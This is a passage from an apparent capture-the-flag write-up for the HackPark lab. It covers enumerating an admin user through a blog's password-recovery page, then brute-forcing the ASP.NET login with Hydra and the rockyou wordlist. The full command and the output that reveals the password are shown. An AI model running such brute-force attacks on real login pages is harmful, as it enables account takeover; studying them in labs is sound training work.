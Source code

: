 This quickly confirmed that the host was a Windows server, most likely Server 2012 and that it was running an HTTP and RDP server. It also pointed out that there was a `robots.txt` link with a few entries.

While this was a fairly small footprint, I decided to kick off a broader portscan covering ports `1-65535` to make sure I hadn't missed anything while I checked out what the website had to offer.

#### Clicking around the site

I opened the site to firefox to be greeted by a less-than-pleasant clown face.

![hack park index](/img/hackpark_http_index.png)

This looked to be a basic blog, so I decided to do some happy path crawling around the site to build up a sitemap in burp as well as my own mental map of the site. Shortly after I found an admin login page that also provided a password recovery link.

I decided to play around with the password recovery and found that `admin` returned a different result than any of the other users I had attempted.

![hack park password retreival](/img/hackpark_http_password_retrieval.png)

Given this supposed user, and that the earlier broad scan yielded nothing, I chose to kick off a background dictionary attack against the `admin` user while I continued to dig around in the site.

### Brute forcing the login page

I returned to the login page and tried an `admin:test` login to try to identify an element that I could use for a failure parameter in hydra. Failed logins spit out a very simple to match `Login failed` string. I grabbed the rest of the post body from Burp and started a brute with hydra, using rockyou as the source dictionary.

```bash
[*] exec: hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.167.66 http-post-form "/Account/login.aspx:__VIEWSTATE=n0dSQaeIUU9td9IiqqxUjQRLt5Vfe9tKftxi264M8uj5KA0zULHSKHjNdqwkzcbSpoimIX3xFLnJz6eAk2EmBlJx3HWWy14YxvnbwBNZczvzFuWjEwLsnVK622pYz9Cw7VQBjYDmS0PHqL0lcA5jxvCn9ILgh4J5Oh8k66K0JOnmXtVC&__EVENTVALIDATION=xjUAebAft2KQN5MffRGhUH5IgDIw1wmzjlNgpt8Vb4N2656viCANryx5yExK93%2BExMUVpVlU%2B%2BHh7jZwqAaf0sH%2Fmg1JISBvUobZVuCj573XBsDtL%2BRyJMOr%2BNWlN4XXAuWjifxkURjzlElA8RJsOQnoIxK8J2daZrZu0wEFAHgf62F0&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-18 22:28:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.167.66:80/Account/login.aspx:__VIEWSTATE=n0dSQaeIUU9td9IiqqxUjQRLt5Vfe9tKftxi264M8uj5KA0zULHSKHjNdqwkzcbSpoimIX3xFLnJz6eAk2EmBlJx3HWWy14YxvnbwBNZczvzFuWjEwLsnVK622pYz9Cw7VQBjYDmS0PHqL0lcA5jxvCn9ILgh4J5Oh8k66K0JOnmXtVC&__EVENTVALIDATION=xjUAebAft2KQN5MffRGhUH5IgDIw1wmzjlNgpt8Vb4N2656viCANryx5yExK93%2BExMUVpVlU%2B%2BHh7jZwqAaf0sH%2Fmg1JISBvUobZVuCj573XBsDtL%2BRyJMOr%2BNWlN4XXAuWjifxkURjzlElA8RJsOQnoIxK8J2daZrZu0wEFAHgf62F0&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.167.66   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-18 22:29:01
```
